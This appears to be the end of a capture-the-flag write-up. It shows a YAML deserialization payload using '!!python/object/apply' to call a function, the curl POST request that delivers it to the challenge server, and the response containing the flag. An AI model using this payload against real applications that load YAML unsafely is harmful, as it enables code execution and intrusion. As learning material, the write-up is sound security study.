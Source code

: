 `{name: !!python/object/apply:flag.get_flag [], image_num: 2, diameter: 5}`

We don't care at all about `image_num` and `diameter` (but must provide them to create the Wheel).

Finally, I worked out the final solution with some URL encoding:

```
curl -X POST -d 'config={name:%20!!python/object/apply:flag.get_flag [], image_num: 2, diameter: 5}' http://chal.cybersecurityrumble.de:7780/wheel

[..]

<h1>Here you go</h1>
<h1>CSR{TH3_QU3STION_I5_WHY_WHY_CAN_IT_DO_THAT?!?}</h1>
Diameter: 5
<code>
diameter: 5
image_num: 2
name: CSR{TH3_QU3STION_I5_WHY_WHY_CAN_IT_DO_THAT?!?}
[..]
```

Despite "easy", I learned a lot with this challenge and enjoyed it. I had no idea about this YAML exploit, and will be certain to be cautious if I ever need to use it in the future.
